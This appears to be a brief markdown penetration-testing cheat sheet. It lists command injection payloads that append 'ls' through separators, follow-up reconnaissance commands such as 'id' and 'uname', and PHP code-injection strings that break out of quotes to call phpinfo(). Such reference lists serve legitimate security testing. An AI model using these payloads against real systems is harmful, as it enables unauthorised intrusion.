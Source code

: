 # Remote Command Execution

## Payloads
```
;ls
;%20ls
&ls
&&ls
|ls
||ls
%0Als
```

## Useful commands
- ```pwd```
- ```uname```
- ```id```
- ```hostname```

# Code Execution

## Payload
```
a";phpinfo();//
a".phpinfo();//
a);}phpinfo();//
```

## Sample PHP executable
- https://www.php.net/manual/en/function.shell-exec.php

